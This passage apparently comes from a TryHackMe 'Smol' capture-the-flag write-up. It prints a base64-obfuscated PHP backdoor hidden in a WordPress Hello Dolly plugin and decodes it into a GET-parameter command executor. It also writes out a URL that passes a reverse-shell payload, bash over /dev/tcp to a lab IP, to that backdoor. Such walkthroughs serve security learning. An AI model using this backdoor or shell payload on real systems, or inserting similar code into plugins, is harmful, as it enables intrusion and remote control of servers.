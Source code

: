 One section of the script caught my attention:
```php
// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

I analyzed the Base64-encoded string and discoverd the following code:
```bash
$ echo "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }
```

For decoding, I used Copilot to break it down and received a clear explanation:

![Copilot Output](/assets/img/tryhackme/Smol/thm_smol_5.jpg)

With this information, I attempted to gain a reverse shell. According to the Hello Dolly plugin description, the quotes it displays are shown on the admin main page. This suggests that the function is likely imported by the admin dashboard's `index.php` file:
```html
http://www.smol.thm/wp-admin/index.php?cmd=echo -n c2V0c2lkIGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxICYK|base64 -d|bash

```
